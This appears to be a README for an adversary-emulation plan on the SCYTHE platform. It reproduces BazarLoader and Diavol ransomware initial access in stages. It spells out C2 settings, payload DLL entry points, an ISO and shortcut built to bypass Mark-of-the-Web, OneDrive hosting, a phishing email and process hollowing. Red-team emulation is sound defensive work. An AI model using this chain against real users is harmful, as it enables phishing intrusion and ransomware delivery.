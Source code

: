 # BazarLoader - Adversary Emulation Plan

BazarLoader is used as part of the initial access portion of multiple threat groups. The threat focuses on bypassing defenses and is commonly changing TTPs. In this threat, we cover a number of different examples observed in the wild.

## Diavol Ransomware
The CTI for this threat comes from https://thedfirreport.com/2021/12/13/diavol-ransomware/ and is further explained in our #ThreatThursday blog series: https://www.scythe.io/library/adversary-emulation-diavol-ransomware-threatthursday

### DiavolStage0
1. Download and import the threats in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under Diavol/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/Diavol
4. Create a new campaign `DiavolStage0` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
5. Import from Existing Threat: DiavolStage0
6. Launch the Campaign
7. Download payload in DLL format setting the entry-point to `BasicScore`
8. Save the DLL as `SharedFiles.dll`
9. Start Stage 1 and 2 before execution
11. Copy the src folder from our [Compound Actions GitHub for T1553.005](https://github.com/scythe-io/compound-actions/tree/main/T1553.005%20-%20Mark-of-the-Web%20Bypass/src) to a working directory on your Windows system
12. Put the SCYTHE DLL in the Folder2Iso of the working directory
13. In the Folder2Iso directory, create a shortcut called `Documents` and set the `Target` to: `C:\Windows\System32\rundll32.exe SharedFiles.dll,BasicScore`
14. Open a Windows command prompt and cd to the working directory
15. Run `Folder2Iso.exe "Folder2Iso" "%USERPROFILE%\Downloads\new-documents-2005.iso" "Diavol" 0 0 0 "None"` This will take all the content of the Folder2Iso folder and create an ISO of it
16. Zip the ISO and call it `new-documents-2005.zip`
17. Upload the zip file to Microsoft OneDrive and copy the link
18. Send a phishing email with the link to the Microsoft OneDrive zip file
19. If the end user downloads the ZIP and double clicks the ISO, it will be mounted on their endpoint. The user will need to double click the shortcut to begin execution.

### DiavolStage1
1. Create a new campaign `DiavolStage1` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage1
3. Launch the Campaign
4. Download payload in EXE format and save it as `DiavolStage1.exe`
5. Upload the `DiavolStage1.exe` to the VFS under VFS:/shared/Diavol

### DiavolStage2
1. Create a new campaign `DiavolStage2` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage2 or create any automation you would like to execute
3. Launch the Campaign
4. Download payload in DLL format setting the entry-point to `EnterDll`
5. Save the DLL as `tfpkuengdlu.dll`
6. Upload the `tfpkuengdlu.dll` to the VFS under VFS:/shared/Diavol

## BazarLoader Excel to WMIC to PowerShell to rundll32.exe
This CTI comes from https://app.any.run/tasks/c5dc698b-8e86-4e50-8b32-d8f45f7538b3/

### BazarLoaderStage0
1. Download and import the threats in JSON format to your SCYTHE instance
2. Create a new campaign `BazarLoaderStage0` with HTTPS
3. Import from Existing Threat: BazarLoaderStage0
4. Modify the process hollowing command to match the location where Microsoft Excel is installed in the target system
5. Launch the Campaign
6. Start Stage 1 and 2 before execution

### BazarLoaderStage1
1. Create a new campaign `BazarLoaderStage1` with HTTPS
2. Import from Existing Threat: BazarLoaderStage1
3. Launch the Campaign
4. Save the 64-bit EXE as `BazarLoaderStage1.exe`
5. Upload to VFS:/shared/BazarLoader/BazarLoaderStage1.exe

### BazarLoaderStage2
1. Create a new campaign `BazarLoaderStage2` with HTTPS
2. Add any automation you would like to execute
3. Launch the Campaign
4. Download the DLL with entry-point set to `setscreen`
5. Save the DLL as `87764675478.dll`
6. Upload the DLL to VFS:/shared/BazarLoader/87764675478.dll